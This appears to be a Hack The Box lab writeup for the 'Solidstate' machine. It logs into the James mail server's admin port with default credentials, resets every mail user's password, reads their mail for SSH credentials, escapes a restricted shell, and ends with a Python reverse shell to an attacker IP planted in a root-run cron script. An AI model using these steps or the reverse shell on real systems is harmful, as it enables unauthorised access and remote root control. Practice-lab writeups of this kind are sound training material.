 ```yaml
---
title: "Solidstate"
description: "Writeup for Solidstate machine from HTB"
date: 2020-08-10
author: "Pablo Jesús González Rubio"
cover: "solidstate.png"
coverAlt: "Solidstate icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

Hosts: `10.10.10.51 solidstate.htb`

Nmap output:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello solidstate.htb (10.10.14.36 [10.10.14.36]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Trying a `telnet solidstate.htb 4555`, as 4555 is the oddest port:

{{<img "james.png" >}}

James Administration Tool has default passwords `root`:`root` and it let us in (here the importance of changing default passwords).

Using `HELP` to list available commands:

```
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

I execute `listusers` command:

```
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Resetting the passwords to have easy access for later:

```
$ setpassword james james
Password for james reset
$ setpassword thomas thomas
Password for thomas reset
$ setpassword john john
Password for john reset
$ setpassword mindy mindy
Password for mindy reset
$ setpassword mailadmin mailadmin
Password for mailadmin reset
```

I then begin listing mails from within the [POP3 port (110)](https://nonuser.es/posts/port_cheatsheet/#110---pop3) with:

```
telnet solidstate.htb 110
# USER james
# PASS james
# LIST
# RETR 1
# QUIT
# ...
```

Nothing on James nor Thomas.

On John:

{{<img "john.png" >}}

It says Mindy has a temporary password, let's investigate his emails.

Mindy's 1º email:

{{<img "1email.png" >}}

Mindy's 2º email:

{{<img "2email.png" >}}

So we got credentials:

```
username: mindy
pass: P@55W0rd1!2@
```

Et voilá!

{{<img "ssh.png" >}}

## Privilege Escalation

### Root

When I try to `cd` to other directories it doesn't let us, it's a restricted shell. To bypass this we quit the ssh session and run the ssh again with the command `bash` like this:

```
ssh mindy@solidstate.htb bash
```

And then the [TTY procedure](https://nonuser.es/posts/pentest_cheatsheet/#tty).

I [uploaded](/posts/data_exfiltration) `linenum` but didn't find anything interesting, so I continued and uploaded `pspy` to check crons and this appears:

{{<img "crons.png" >}}

So `root` is running a python script and I have full access to the file:

{{<img "tmp.png" >}}

So the idea is to put a reverse shell inside the script and when the cron runs again, we'll have a connection.

My reverse is:

```python
#!/usr/bin/env python
import socket,subprocess,os
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.36",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

Listening with `nc -lnvp 4444` and... got `root` access!

{{<img "root.png" >}}

